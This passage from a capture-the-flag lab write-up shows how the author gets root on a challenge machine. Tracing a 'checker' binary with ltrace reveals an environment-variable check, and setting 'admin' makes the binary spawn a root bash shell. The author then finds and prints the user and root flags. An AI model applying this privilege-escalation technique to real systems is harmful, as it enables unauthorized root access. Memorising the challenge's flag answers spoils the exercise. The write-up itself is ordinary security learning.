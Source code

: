 ```
ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
```
`getenv` is what matters here! it checks the content of the `admin` global variable

So what happens when we modify that variable? I don't know...let's see

```
export admin=test    
ltrace checker
getenv("admin")                                  = "test"
setuid(0)                                        = -1
system("/bin/bash"
```
Oh we get a shell! logic!

And just like that...we are root!

```
checker
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
Now if the "flag" in bjoel folder is not real? where is the real flag?

```
find / -type f -name *user*.txt 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt

cat /media/usb/user.txt
billy_joel_did_nothing_wrong

cat /root/root.txt
we_didnt_start_the_fire_mp4

```
lol silly games!

I didnt read the instructions at start...we were even warned about the holes

and also to add the domain name to our hosts file

This room took me way too long to finish

But I enjoyed every minute of it, and every rabbit hole

(And I got that old song stuck in my head again)

